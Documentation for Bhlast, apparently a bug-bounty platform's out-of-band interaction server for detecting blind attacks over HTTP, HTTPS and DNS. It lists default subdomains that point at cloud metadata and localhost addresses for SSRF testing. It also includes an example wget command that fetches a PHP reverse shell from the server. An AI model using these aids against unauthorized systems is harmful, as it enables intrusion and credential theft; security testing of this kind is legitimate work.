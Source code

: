 ﻿# Bhlast

## Motivation

Blind attacks are somewhat difficult, since you have to have a server that will listen to interactions.

Burp collaborator is a great way to listen to interactions, but if you want your server to listen to interactions even when you are not hacking, you have to use some other site.

ProjectDiscovery published an amazing tool called [interactsh](https://github.com/projectdiscovery/interactsh), which allows you to self-host it to leverage some features.

Since this platform is meant to eliminate as much of the boring work that you need to do in order to be successful, and to work on the stuff while you are not hacking, having this functionality is a **must**.

::alert{type="info"}
Thank you to ProjectDiscovery for open-sourcing this great tool! Bhlast implementation is heavily influenced by your work.
::

## How it works?

New server is registered behind the [bhlast.com](https://bhlast.com) domain.

In order to create your unique server, you have to have an account on the [BountyHub](https://bountyhub.org) platform.

Each server gets random subdomain unique to your account. In order to avoid having spam notifications, please do not share your
`bhlast` server publically. Every interaction with this server will be tracked, and you will get notified for no good reason.

Server is listening on following:

::list{type="primary"}
- HTTP (TCP port 80)
- HTTPS (TCP port 443)
- DNS (TCP and UDP port 53)
- Serve static files
- Get notified on interactions
::

## Default behavior

### HTTP

When you visit the [bhlast.com](https://bhlast.com), static page will be displayed. This static page is only used to point you to the documentation, and to show basic information about this server.

### DNS

Each `bhlast` server gets its own subdomain. Each subdomain is unique random lowercase alphanumeric string. Every interaction with that subdomain will be recorded.

By default, you will also get following subdomains:

- aws.\[id\].bhlast.com -> 169.254.169.254
- alibaba.\[id\].bhlast.com -> 100.100.100.200
- localhost.\[id\].bhlast.com -> 127.0.0.1
- oracle.\[id\].bhlast.com -> 127.0.0.1

## Server registration and configuration

### Registration

Once you are logged into the platform, on the right drawer, you will see tab named `Bhlast servers`. Click on it.

![Bhlast servers](/drawer-bhlast.png)

On top of the page, you will see `Register Server` button. Click on it, and you will be taken to the registration page.

## Working with your server

Your `bhlast` server can be used to:

- Track interactions
- Serve files
- Standard responses

### Tracking interactions

Interactions are shown for each request that is associated with your subdomain. The `[id]` portion of your subdomain is
the identifier used to associate interaction with it. In other words, let's say your subdomain is `lwwhkmc4n2ziyu3d`. Then
all traffic directed to `lwwhkmc4n2ziyu3d.bhlast.com` and `*.lwwhkmc4n2ziyu3d.bhlast.com` is registered associated with your
server.

![Bhlast logs](/bhlast-log.png)

### Serving files

Your server can also be used as a file server. Think of it as `python3 -m http.server 80`, but listening both on port 80 and 443.

In order to serve file, route `/-/` is exposed for that purpose.

As an example, let's say your server is located at `lwwhkmc4n2ziyu3d.bhlast.com`. You uploaded a `php-rev-shell.php`.
You can retrieve it by running `wget https://o66322a9ufqn02o0.bhlast.com/-/php-rev-shell.php`. The important thing to note
is that the interaction on your file server is also tracked, so you can later prove that server pulled the file.

### Standard responses

By default, subdomain reversed will be served as a string. However, there are special cases to change format
of responses.

| Path                     | Response format                                                        |
| ------------------------ | ---------------------------------------------------------------------- |
| Path ending with `.xml`  | The result will be in format `<data>[reverse subdomain string]</data>` |
| Path ending with `.json` | The result will be in format `{"data": "[reverse subdomain string]"}`  |
| `/robots.txt`            | `User-agent: *\nDisallow: / # [reverse subdomain string] `             |
